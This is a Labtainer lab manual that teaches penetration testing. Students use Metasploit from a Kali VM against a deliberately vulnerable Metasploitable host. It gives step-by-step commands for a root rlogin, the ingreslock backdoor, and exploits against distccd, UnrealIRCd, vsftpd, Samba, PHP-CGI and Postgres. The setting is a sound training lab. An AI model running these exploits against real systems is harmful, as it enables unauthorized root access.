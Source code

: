 ![](media/b80e0eacca6dad9d42b5dc3545946591.png)

Using Metasploit
=================================

Overview
========

This Labtainer exercise explores the use of the metasploit tool which is
installed on a Kali Linux system (attacker) and is meant to learn simple
penetration skills on a purposely vulnerable metasploitable host (victim).

Note: the attacker computer is configured to have IP address 192.168.1.3 while
the victim computer is 192.168.1.2

Lab Environment
===============

Once you have logged into your range account and accessed your Labtainer-VM,
open a terminal window.

Navigate to the “labtainer-student” directory and start the lab using the
command:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
>   labtainer metaploit
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-   The resulting virtual terminal is connected to the attacker computer.
-   Links to this lab manual will be displayed if you wish to view the prompt
    from within your VM


**Tasks**

1. **Verify connectivity between attacker and victim**

A simple ping from the attacker system will be sufficient.
```
ping 192.168.1.2
```

2. **Get a list of vulnerable services on the victim**

An 'nmap' scan of the victim will be sufficient.
```

nmap -p0-65535 192.168.1.2
```

3. **Vulnerably configured rlogin service (port 513)**

Remote login to the victim (with root privilege)
```

rlogin -l root 192.168.1.2

Display a 'root' file

cat /root/filetoview.txt
```

4. **Vulnerable ingreslock service (port 1524)**

Use telnet to access ingreslock service and obtain root privilege
```
telnet 192.168.1.2 1524
```

Display root file as above

5. **Vulnerable distccd service (port 3632)**

Start Metasploit console
```
sudo msfconsole
```

- Note you will see a warning about a missing database, you can ignore that.

Search for distccd exploit:
```
search distccd
```

Use the exploit:
```
use exploit/unix/misc/distcc_exec
```

View options related to exploit:
```
options
```

Set the 'RHOST' option:
```
set RHOST 192.168.1.2
```

Run the exploit:
```
exploit
```

Note: when the exploit has succeeded, no prompt is shown but a shell is created.

Display the root file as above.

6. **Vulnerable IRC daemon (port 6667)**

Search for unreal_ircd exploit.

Use the exploit.

View and set options as necessary (RHOST option) run the exploit and display
root file.

7. **Vulnerable VSFtpd service (port 21)**

Search for vsftpd_234.

Use the exploit.

View and set options as necessary (RHOST option), run the exploit and display
root file.

8. **Vulnerable Samba service (port 139)**

Search for samba usermap_script.

Use the exploit.

View and set options as necessary (RHOST option), run the exploit and display
root file.

9. **Vulnerable HTTP (php) service (port 80)**

Search for php_cgi.

Use the exploit.

View and set options as necessary (RHOST option) run the exploit.

Note: when the exploit is succeeded a 'meterpreter' prompt is shown.

From meterpreter prompt, drop to a shell:
```

shell
```

Display the root file.

10. **Vulnerable Postgres service (port 5432)**

Search for postgres_payload.

Use the exploit.

View and set options as necessary (RHOST option).

run the exploit.

Note: when the exploit is succeeded a 'meterpreter' prompt is shown.

From meterpreter prompt, drop to a shell.

Display root file.

**Stop the Labtainer**

When the lab is completed, or you'd like to stop working for a while, run
```
stoplab
```

from the host Labtainer working directory. You can always restart the

Labtainer to continue your work. 

